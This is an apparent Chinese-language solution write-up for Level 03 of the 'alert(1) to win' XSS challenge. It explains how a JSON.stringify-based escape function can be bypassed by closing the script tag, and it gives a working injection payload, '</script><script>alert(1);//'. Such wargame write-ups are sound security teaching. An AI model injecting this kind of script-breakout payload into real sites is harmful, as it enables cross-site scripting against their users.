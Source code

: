 ## [[alert(1) to win](https://alf.nu/alert1)] [[Level 03 - JSON](https://alf.nu/alert1)] [[解题报告](http://exp-blog.com/2019/08/04/pid-3893/)]

------

## 题目

```javascript
function escape(s) {
  s = JSON.stringify(s);
  return '<script>console.log(' + s + ');</script>';
}
```

------

## 解题报告

从代码可知对输入做了 `stringify` 过滤，关于其功能详见 [这里](https://www.runoob.com/js/javascript-json-stringify.html) 

简单来说就是把 `"` 和 `\` 都转义了，导致无法直接闭合函数。

但是闭合 `<script>` 就可以了，构造 payload 如下 （此处没有闭合后半段的双引号，而是通过行注释 `//` 屏蔽掉）：

```javascript
</script><script>alert(1);//
```

![](http://exp-blog.com/wp-content/uploads/2019/08/b4c0014851b065b5d1bc6f697b8217ca.png)

------

## 版权声明

　[![Copyright (C) 2016-2019 By EXP](https://img.shields.io/badge/Copyright%20(C)-2016~2019%20By%20EXP-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------
